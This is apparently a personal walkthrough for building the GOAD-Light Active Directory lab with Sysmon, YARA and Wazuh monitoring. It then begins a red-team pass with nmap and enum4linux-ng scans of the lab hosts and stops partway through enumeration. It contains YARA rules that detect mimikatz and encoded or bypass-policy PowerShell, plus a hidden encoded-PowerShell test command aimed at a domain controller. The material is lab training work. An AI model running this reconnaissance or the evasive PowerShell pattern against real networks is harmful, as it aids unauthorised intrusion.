# Introduction
Active Directory is almost in every organization, especially with a large amount of employees that need to be on a centralized network, database, and emails etc. Being able to break it to find vulnerabilities before attackers do is a great skill, that even if the **AD** is configured properly, there is always an open door.

# Lab Setup
For the AD Lab i will be using [GOAD-Light](https://orange-cyberdefense.github.io/GOAD/labs/GOAD-Light/#servers).

**Note**: To avoid errors during **GOAD** setup, make sure you configure everything according to the requirements as well as having all the installations and services ready. You can give any AI the context and debug if you face any issues.

## My Tuning & Tips
**GOAD** is great by itself, but for my preference, i transformed and enhanced to a **Purple Teaming** lab, since im not only interested in Red Teaming, but also Blue Teaming. This is of course optional but if you are interested in logging all the attacks you do and seeing the defense POV, you are welcome to do so.

**This is the lab after my configurations:**


### Attacker Machine
Since the GOAD lab does not give us an attacker machine, we have to set one up. I have a Kali machine running but its only lacking to be on the same network as the AD. 
Inside the Kali VM, do the following:

- Settings --> Network Adapter --> vmnet (Assign to same vmnet of the AD VMs)
- Assign an IP address on the same subnet using these commands:

``` bash
# 1 Get connection name
nmcli connection show

# 2 Assign static IP, Gateway, and set DNS to DC01 (192.168.56.10)
sudo nmcli con mod "Wired connection 1" ipv4.addresses 192.168.56.99/24
sudo nmcli con mod "Wired connection 1" ipv4.dns "192.168.56.10"
sudo nmcli con mod "Wired connection 1" ipv4.dns-search "sevenkingdoms.local,north.sevenkingdoms.local"
sudo nmcli con mod "Wired connection 1" ipv4.method manual

# 3 Apply changes
sudo nmcli con down "Wired connection 1" && sudo nmcli con up "Wired connection 1"

# 4 Check IP
ip a

# 5 Test Connectivity 
ping 192.168.56.10 
# Test the AD VMs by pinging their IPs and also you can test the DNS

```

### Sysmon & Wazuh Setup 
To setup sysmon on the Windows VMs without logging in, so you dont cheat yourself, replace the ***Vagrantfile*** in this directory ~/GOAD/workspace/xb1fd1-goad-light-vmware/provider. 
I chose Wazuh as it is a light VM and i will run it on Docker. I also added the Audit Policies, as they are not enabled by default. We will forward the event logs from the Windows VMs to Wazuh for later analysis. 

``` bash
# THERE ARE MULTIPLE STEPS HERE SO GO THROUGH THEM CAREFULLY

# STEP 1: Update the Vagrantfile script to setup Wazuh, Sysmon, Audit Policies, and YARA Rules.

# Open the Vagrantfile to check it out
nano Vagrantfile
# Remove all the content inside the file
: > Vagrantfile # Copy it to your notes just in case

# Paste this new code
Vagrant.configure("2") do |config|

  ENV['VAGRANT_DEFAULT_PROVIDER'] = 'vmware_desktop'

  boxes = [
    # windows server 2019
    { :name => "GOAD-Light-DC01",  :ip => "192.168.56.10", :box => "StefanScherer/windows_2019", :box_version => "2021.05.15", :os => "windows", :cpus => 2, :mem => 3000},
    # windows server 2019
    { :name => "GOAD-Light-DC02",  :ip => "192.168.56.11", :box => "StefanScherer/windows_2019", :box_version => "2021.05.15", :os => "windows", :cpus => 2, :mem => 3000},
    # windows server 2019
    { :name => "GOAD-Light-SRV02", :ip => "192.168.56.22", :box => "StefanScherer/windows_2019", :box_version => "2021.05.15", :os => "windows", :cpus => 2, :mem => 6000}
  ]

  config.vm.provider "vmware_desktop" do |v|
    v.force_vmware_license = "workstation"  # force the licence for fix some vagrant plugin issue
    # v.gui = true
  end

  # disable rdp forwarded port inherited from StefanScherer box
  config.vm.network :forwarded_port, guest: 3389, host: 3389, id: "rdp", auto_correct: true, disabled: true

  # no autoupdate if vagrant-vbguest is installed
  if Vagrant.has_plugin?("vagrant-vbguest") then
    config.vbguest.auto_update = false
  end

  config.vm.boot_timeout = 600
  config.vm.graceful_halt_timeout = 600
  config.winrm.retry_limit = 30
  config.winrm.retry_delay = 10

  boxes.each do |box|
    config.vm.define box[:name] do |target|
      # BOX
      target.vm.provider "vmware_desktop" do |v|
        v.vmx["memsize"] = box[:mem]
        v.vmx["numvcpus"] = box[:cpus]
      end

      target.vm.box_download_insecure = box[:box]
      target.vm.box = box[:box]
      if box.has_key?(:box_version)
        target.vm.box_version = box[:box_version]
      end

      # issues/49
      target.vm.synced_folder '.', '/vagrant', disabled: true

      # IP
      target.vm.network :private_network, ip: box[:ip]

      # OS specific
      if box[:os] == "windows"
        target.vm.guest = :windows
        target.vm.communicator = "winrm"
        target.vm.provision :shell, :path => "../../../vagrant/Install-WMF3Hotfix.ps1", privileged: false
        target.vm.provision :shell, :path => "../../../vagrant/ConfigureRemotingForAnsible.ps1", privileged: false

        if ENV['VAGRANT_DEFAULT_PROVIDER'] == "vmware_desktop"
        
          target.vm.provision "shell", inline: "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File ../../../vagrant/fix_ip.ps1 #{box[:ip]}' -WindowStyle Hidden; Start-Sleep -Seconds 3", privileged: false
        end

        # Calls external Wazuh.YARA.ps1 script in the same directory
        target.vm.provision "shell", path: File.join(File.dirname(__FILE__), "Wazuh.YARA.ps1"), privileged: true

      else
        target.vm.communicator = "ssh"
      end

      if box.has_key?(:forwarded_port)
        # forwarded port explicit
        box[:forwarded_port] do |forwarded_port|
          target.vm.network :forwarded_port, guest: forwarded_port[:guest], host: forwarded_port[:host], host_ip: "127.0.0.1", id: forwarded_port[:id]
        end
      end

    end
  end
end
```

``` bash
# STEP 2: Deploying Wazuh Docker on your device

# First, clone Wazuh to your system
cd ~/Desktop
# NOTE: Make sure Docker is running, if not just start the application
docker --version
docker compose version
git clone https://github.com/wazuh/wazuh-docker.git -b v4.8.0 --depth 1
cd wazuh-docker/single-node
docker compose up -d
docker ps # 3 images should be running and show you all 3 ports
# Quick note: If the localhost:5601 isnt running, its probably because the indexer is not running. Make sure the three images are running.
#==============================================================================

# STEP 3: Make a new .ps1 file in /provider directory where Vagrant file is and paste this code. 
# This PowerShell code sets up PowerShell Logging, Wazuh Agent, and YARA rules

# NOTE: The .ps1 file name has to match Wazuh.YARA.ps1, because it is triggered in step 1 in the Vagrantfile.

# ============================================================================
# 1. PRE-FLIGHT & NETWORK STABILIZATION
# ============================================================================
$ErrorActionPreference = 'Stop'
$ProgressPreference = 'SilentlyContinue' # Disables native progress bars that break WinRM
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 1 -Type DWord -ErrorAction SilentlyContinue

Write-Host "[*] Waiting for network to stabilize after IP reconfiguration..." -ForegroundColor Cyan
$MaxRetries = 12
$RetryCount = 0
$NetworkUp = $false

while (-not $NetworkUp -and $RetryCount -lt $MaxRetries) {
    $Test = Test-NetConnection -ComputerName "github.com" -Port 443 -InformationLevel Quiet
    if ($Test) {
        $NetworkUp = $true
        Write-Host "[+] Internet connectivity confirmed." -ForegroundColor Green
    } else {
        Write-Host "[-] Network not ready, waiting 5 seconds..." -ForegroundColor Yellow
        Start-Sleep -Seconds 5
        $RetryCount++
    }
}

if (-not $NetworkUp) {
    Write-Host "[!] CRITICAL: Could not reach the internet. Downloads will fail." -ForegroundColor Red
}

# ============================================================================
# 2. POWERSHELL LOGGING CONFIGURATION
# ============================================================================
Write-Host "[+] Enabling PowerShell Script Block and Module Logging..." -ForegroundColor Green
$PSLogPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell"
if (-not (Test-Path "$PSLogPath\ScriptBlockLogging")) { New-Item -Path "$PSLogPath\ScriptBlockLogging" -Force | Out-Null }
Set-ItemProperty -Path "$PSLogPath\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1 -Type DWord
Set-ItemProperty -Path "$PSLogPath\ScriptBlockLogging" -Name "EnableScriptBlockInvocationLogging" -Value 1 -Type DWord

if (-not (Test-Path "$PSLogPath\ModuleLogging\ModuleNames")) { New-Item -Path "$PSLogPath\ModuleLogging\ModuleNames" -Force | Out-Null }
Set-ItemProperty -Path "$PSLogPath\ModuleLogging" -Name "EnableModuleLogging" -Value 1 -Type DWord
Set-ItemProperty -Path "$PSLogPath\ModuleLogging\ModuleNames" -Name "*" -Value "*" -Type String

# ============================================================================
# 3. SYSMON INSTALLATION
# ============================================================================
Write-Host "[+] Downloading and Installing Sysmon..." -ForegroundColor Green
$SysmonDir = "$env:TEMP\Sysmon"
if (-not (Test-Path $SysmonDir)) { New-Item -ItemType Directory -Path $SysmonDir -Force | Out-Null }

$SysmonZip = "$SysmonDir\Sysmon.zip"
$SysmonConfig = "$SysmonDir\sysmonconfig.xml"

# Download Sysmon and SwiftOnSecurity Config
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile $SysmonZip -UseBasicParsing -TimeoutSec 60
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile $SysmonConfig -UseBasicParsing -TimeoutSec 60

Expand-Archive -Path $SysmonZip -DestinationPath $SysmonDir -Force

# Install Sysmon Silently
Start-Process -FilePath "$SysmonDir\sysmon64.exe" -ArgumentList "-accepteula -i `"$SysmonConfig`"" -Wait -WindowStyle Hidden
Write-Host "[+] Sysmon installed and running." -ForegroundColor Green

# ============================================================================
# 4. YARA INSTALLATION
# ============================================================================
Write-Host "[+] Downloading and Setting up YARA..." -ForegroundColor Green
$YaraDir = "C:\Program Files (x86)\ossec-agent\active-response\bin\yara"
if (-not (Test-Path $YaraDir)) { New-Item -ItemType Directory -Path $YaraDir -Force | Out-Null }

$YaraZip = "$env:TEMP\yara.zip"
Invoke-WebRequest -Uri "https://github.com/VirusTotal/yara/releases/download/v4.5.2/yara-v4.5.2-2326-win64.zip" -OutFile $YaraZip -UseBasicParsing -TimeoutSec 60
Expand-Archive -Path $YaraZip -DestinationPath $YaraDir -Force
Remove-Item $YaraZip -Force

# Write YARA Rules
$YaraRulesContent = @'
rule EICAR_Test { strings: $a = "EICAR-STANDARD-ANTIVIRUS-TEST-FILE" condition: $a }
rule Mimikatz_Strings { strings: $m1 = "mimikatz" nocase condition: any of ($m*) }
rule Suspicious_PowerShell { strings: $ps1 = "-ExecutionPolicy Bypass" nocase $ps2 = "-EncodedCommand" nocase condition: any of ($ps*) }
'@
$RulesFilePath = "$YaraDir\rules.yar"
Set-Content -Path $RulesFilePath -Value $YaraRulesContent -Encoding UTF8
Write-Host "[+] YARA rules successfully updated." -ForegroundColor Green

# ============================================================================
# 5. WAZUH AGENT INSTALLATION
# ============================================================================
$WazuhManagerIP = "192.168.56.1"

# ---> CHANGE THIS TO MATCH YOUR DASHBOARD VERSION EXACTLY <---
$AgentVersion = "4.8.0" 

Write-Host "[+] Checking for mismatched Wazuh versions..." -ForegroundColor Yellow
$UninstallStr = (Get-ItemProperty "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" -ErrorAction SilentlyContinue | Where-Object DisplayName -eq "Wazuh Agent").UninstallString

if ($UninstallStr) {
    Write-Host "[!] Existing Wazuh agent found. Uninstalling for clean version install..." -ForegroundColor Yellow
    $CleanArgs = $UninstallStr -replace 'msiexec.exe ','' -replace '/I','/X' -replace '/i','/X'
    $CleanArgs += " /quiet"
    Start-Process msiexec.exe -ArgumentList $CleanArgs -Wait
}

$AgentMsi = "$env:TEMP\wazuh-agent.msi"
$WazuhUrl = "https://packages.wazuh.com/4.x/windows/wazuh-agent-$AgentVersion-1.msi"

Write-Host "[+] Downloading and Installing Wazuh Agent v$AgentVersion..." -ForegroundColor Green
Invoke-WebRequest -Uri $WazuhUrl -OutFile $AgentMsi -UseBasicParsing -TimeoutSec 60
Start-Process msiexec.exe -ArgumentList "/i `"$AgentMsi`" /q WAZUH_MANAGER=`"$WazuhManagerIP`" WAZUH_REGISTRATION_SERVER=`"$WazuhManagerIP`"" -Wait
Remove-Item $AgentMsi -Force
# ============================================================================
# 6. WAZUH LOG FORWARDING CONFIGURATION
# ============================================================================
Write-Host "[+] Configuring Wazuh to forward Sysmon and PowerShell logs..." -ForegroundColor Green
$OssecConf = "C:\Program Files (x86)\ossec-agent\ossec.conf"

if (Test-Path $OssecConf) {
    [xml]$xml = Get-Content $OssecConf

    function Add-LogChannel($channelName) {
        $exists = $xml.ossec_config.localfile | Where-Object { $_.location -eq $channelName }
        if (-not $exists) {
            $localfile = $xml.CreateElement("localfile")
            
            $location = $xml.CreateElement("location")
            $location.InnerText = $channelName
            $localfile.AppendChild($location) | Out-Null
            
            $logformat = $xml.CreateElement("log_format")
            $logformat.InnerText = "eventchannel"
            $localfile.AppendChild($logformat) | Out-Null
            
            $xml.ossec_config.AppendChild($localfile) | Out-Null
        }
    }

    Add-LogChannel "Microsoft-Windows-Sysmon/Operational"
    Add-LogChannel "Microsoft-Windows-PowerShell/Operational"
    
    $xml.Save($OssecConf)
    
    if (Get-Service Wazuh -ErrorAction SilentlyContinue) {
        Restart-Service Wazuh
    }
}

Write-Host "[+] SUCCESS: All tools installed and Wazuh agent restarted." -ForegroundColor Green

```

This code sets up the Windows VMs with Sysmon without you having to access them, you can also add whatever else you need to download in the script.

After adding the code and your machine is running, you have to update it and make it run this script.

``` bash
# Update all the VMs running the full Vagrantfile script
vagrant provision
# Update the VMs using a specific function insead of the whole script
vagrant --provision-with sysmon
# Update specific VM
vagrant provision GOAD-Light-DC01
# Update specific function on a specific VM
vagrant provision GOAD-Light-DC02 --provision-with wazuh-agent
```
``` bash
QUICK NOTE: You may run through errors, so debug and check the code according to your lab setup, system hardware, and other requirements you might be overlooking.
```

**After updating all VMs**

**Setting up Wazuh through PowerShell**


**Deploying Docker for Wazuh**


**All images sould be** **up***


**Wazuh Dashboard**


**Test the SIEM**
``` bash
vagrant winrm GOAD-Light-DC01 -e -c "powershell.exe -ExecutionPolicy Bypass -nop -w hidden -EncodedCommand AAAA"
```

Ok now we are ready.

# Red Teaming
In this section, we will perform a red team operation by attempting to gain access and takeover the Active Directory, from recon to post exploitation. Get a coffee and lets get started!

## Reconnaissance
I will start by using **Nmap** to get information about the hosts on the network.
``` bash
$ sudo nmap -sCV -p- 192.168.56.0/24 -oN rez.txt

# Scan Results:
# Nmap scan report for 192.168.56.10
Host is up (0.0012s latency).
Not shown: 985 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-10 12:08:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2026-08-09T18:28:21
|_Not valid after:  2027-08-09T18:28:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2026-08-09T18:28:21
|_Not valid after:  2027-08-09T18:28:21
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2026-08-09T18:28:21
|_Not valid after:  2027-08-09T18:28:21
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2026-08-09T18:28:21
|_Not valid after:  2027-08-09T18:28:21
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SEVENKINGDOMS
|   NetBIOS_Domain_Name: SEVENKINGDOMS
|   NetBIOS_Computer_Name: KINGSLANDING
|   DNS_Domain_Name: sevenkingdoms.local
|   DNS_Computer_Name: kingslanding.sevenkingdoms.local
|   DNS_Tree_Name: sevenkingdoms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-10T12:10:49+00:00
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Not valid before: 2026-08-08T17:49:38
|_Not valid after:  2027-02-07T17:49:38
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/wsmans?
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2026-08-08T10:29:28
|_Not valid after:  2029-08-07T10:29:28
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
MAC Address: 00:0C:29:6A:E7:D9 (VMware)c
Service Info: Host: KINGSLANDING; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-10T12:10:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: KINGSLANDING, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:6a:e7:d9 (VMware)

# Nmap scan report for 192.168.56.11
Host is up (0.0013s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-10 12:08:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2026-08-09T20:26:09
|_Not valid after:  2027-08-09T20:26:09
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2026-08-09T20:26:09
|_Not valid after:  2027-08-09T20:26:09
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2026-08-09T20:26:09
|_Not valid after:  2027-08-09T20:26:09
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
3269/tcp open  ssl/ldap
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2026-08-09T20:26:09
|_Not valid after:  2027-08-09T20:26:09
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Not valid before: 2026-08-08T18:12:21
|_Not valid after:  2027-02-07T18:12:21
| rdp-ntlm-info: 
|   Target_Name: NORTH
|   NetBIOS_Domain_Name: NORTH
|   NetBIOS_Computer_Name: WINTERFELL
|   DNS_Domain_Name: north.sevenkingdoms.local
|   DNS_Computer_Name: winterfell.north.sevenkingdoms.local
|   DNS_Tree_Name: sevenkingdoms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-10T12:10:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/wsmans?
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2026-08-08T10:32:16
|_Not valid after:  2029-08-07T10:32:16
MAC Address: 00:0C:29:64:73:57 (VMware)
Service Info: Host: WINTERFELL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-10T12:10:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: WINTERFELL, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:64:73:57 (VMware)

# Nmap scan report for 192.168.56.22
Host is up (0.00097s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesnt have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| ms-sql-info: 
|   192.168.56.22:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-10T10:48:07
|_Not valid after:  2056-08-10T10:48:07
| ms-sql-ntlm-info: 
|   192.168.56.22:1433: 
|     Target_Name: NORTH
|     NetBIOS_Domain_Name: NORTH
|     NetBIOS_Computer_Name: CASTELBLACK
|     DNS_Domain_Name: north.sevenkingdoms.local
|     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|     DNS_Tree_Name: sevenkingdoms.local
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=castelblack.north.sevenkingdoms.local
| Not valid before: 2026-08-08T18:26:55
|_Not valid after:  2027-02-07T18:26:55
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: NORTH
|   NetBIOS_Domain_Name: NORTH
|   NetBIOS_Computer_Name: CASTELBLACK
|   DNS_Domain_Name: north.sevenkingdoms.local
|   DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|   DNS_Tree_Name: sevenkingdoms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-10T12:10:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/wsmans?
|_ssl-date: 2026-08-10T12:11:23+00:00; 0s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2026-08-08T10:37:20
|_Not valid after:  2029-08-07T10:37:20
MAC Address: 00:0C:29:2A:E9:1F (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-10T12:10:51
|_  start_date: N/A
|_nbstat: NetBIOS name: CASTELBLACK, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:2a:e9:1f (VMware)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.56.99
Host is up.                                                                      
All 1000 scanned ports on 192.168.56.99 are in ignored states.                   
Not shown: 1000 filtered tcp ports (no-response)                                 
Post-scan script results:                                                        
| clock-skew:                                                                    
|   0s:                                                                          
|     192.168.56.10                                                              
|     192.168.56.22                                                              
|_    192.168.56.11                                        
```
**Key Findings**:
- Multiple crucial ports open
- 3 IP addresses we can use for further enummeration
- Names of domain and hosts
- Domains: **sevenkingdoms.local**, **winterfell.north.sevenkingdoms.local**, **castelblack.north.sevenkingdoms.local**

## Enumeration (External)
Now we want more information so we can gain access to one of the users on the system, and there multiple ways to do so. I ran the following **enum4linux-ng** command:
```bash
# Domain enum
$ enum4linux-ng -A "$TARGET" # Target is sevenkingdoms.local           

ENUM4LINUX - next generation (v1.3.10)
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... kingslanding.sevenkingdoms.local
[*] Username ......... ''
[*] Random Username .. 'thxdijqh'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)
 =========================================================
|    Listener Scan on kingslanding.sevenkingdoms.local    |
 =========================================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp
 ========================================================================
|    Domain Information via LDAP for kingslanding.sevenkingdoms.local    |
 ========================================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: sevenkingdoms.local
 ===============================================================================
|    NetBIOS Names and Workgroup/Domain for kingslanding.sevenkingdoms.local    |
 ===============================================================================
[+] Got domain/workgroup name: SEVENKINGDOMS
[+] Full NetBIOS names information:
- KINGSLANDING    <00> -         M <ACTIVE>  Workstation Service                 
- SEVENKINGDOMS   <00> - <GROUP> M <ACTIVE>  Domain/Workgroup Name               
- SEVENKINGDOMS   <1c> - <GROUP> M <ACTIVE>  Domain Controllers                  
- SEVENKINGDOMS   <1b> -         M <ACTIVE>  Domain Master Browser               
- KINGSLANDING    <20> -         M <ACTIVE>  File Server Service                 
- MAC Address = 00-0C-29-6A-E7-D9                                                
 =============================================================
|    SMB Dialect Check on kingslanding.sevenkingdoms.local    |
 =============================================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                              
SMB 1.0: false                                                                 
SMB 2.0.2: true                                                                
SMB 2.1: true                                                                  
SMB 3.0: true                                                                  
SMB 3.1.1: true                                                                
Preferred dialect: SMB 3.0                                                       
SMB1 only: false                                                                 
SMB signing required: true                                                       
 ===============================================================================
|    Domain Information via SMB session for kingslanding.sevenkingdoms.local    |
 ===============================================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: KINGSLANDING                                              
NetBIOS domain name: SEVENKINGDOMS                                               
DNS domain: sevenkingdoms.local                                                  
FQDN: kingslanding.sevenkingdoms.local                                           
Derived membership: domain member                                                
Derived domain: SEVENKINGDOMS                                                    
 =============================================================
|    RPC Session Check on kingslanding.sevenkingdoms.local    |
 =============================================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE
 =======================================================================
|    Domain Information via RPC for kingslanding.sevenkingdoms.local    |
 =======================================================================
[+] Domain: SEVENKINGDOMS
[+] Domain SID: S-1-5-21-604280439-1264172327-689438309
[+] Membership: domain member
 ===================================================================
|    OS Information via RPC for kingslanding.sevenkingdoms.local    |
 ===================================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                         
OS version: '10.0'                                                               
OS release: '1809'                                                               
OS build: '17763'                                                                
Native OS: not supported                                                         
Native LAN manager: not supported                                                
Platform id: null                                                                
Server type: null                                                                
Server type string: null                                                         
 =========================================================
|    Users via RPC on kingslanding.sevenkingdoms.local    |
 =========================================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED
 ==========================================================
|    Groups via RPC on kingslanding.sevenkingdoms.local    |
 ==========================================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED
 ==========================================================
